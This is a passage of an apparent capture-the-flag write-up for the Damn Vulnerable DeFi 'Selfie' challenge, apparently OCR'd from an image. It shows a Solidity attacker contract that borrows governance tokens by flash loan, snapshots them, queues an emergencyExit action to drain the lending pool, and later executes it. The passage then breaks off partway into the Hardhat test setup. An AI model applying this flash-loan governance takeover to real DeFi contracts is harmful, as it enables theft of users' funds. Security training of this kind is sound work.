 ```
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata
    ) external override returns (bytes32) {
        uint snapshotId = governanceToken.snapshot();

        ISimpleGovernance(governance).queueAction(
            address(pool),
            0,
            abi.encodeWithSignature("emergencyExit(address)", address(this))
        );

        governanceToken.approve(address(pool), amount);


        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    function executeFlashLoan() external {
        pool.flashLoan(
            IERC3156FlashBorrower(address(this)),
            address(governanceToken),
            governanceToken.balanceOf(address(pool)),
            ""
        );
    }

    function executeAction() external {
        ISimpleGovernance(governance).executeAction{value: 0}(1);
        governanceToken.transfer(
            msg.sender,
            governanceToken.balanceOf(address(this))
        );
    }
}
```

## Solution code

```
const { ethers } = require('hardhat');
const { expect } = require('chai');
const { time } = require("@nomicfoundation/hardhat-network-helpers");

describe('[Challenge] Selfie', function () {
    let deployer, player;
    let token, governance, pool;

    const TOKEN_INITIAL_SUPPLY = 2000000n * 10n ** 18n;
    const TOKENS_IN_POOL = 1500000n * 10n ** 18n;
    
    before(async function () {
        /** SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE */
        [deployer, player] = await ethers.getSigners();

        // Deploy Damn Valuable Token Snapshot
        token = await (await ethers.getContractFactory('DamnValuableTokenSnapshot', deployer)).deploy(TOKEN_INITIAL_SUPPLY);

        // Deploy governance contract
        governance = await (await ethers.getContractFactory('SimpleGovernance', deployer)).deploy(token.address);
```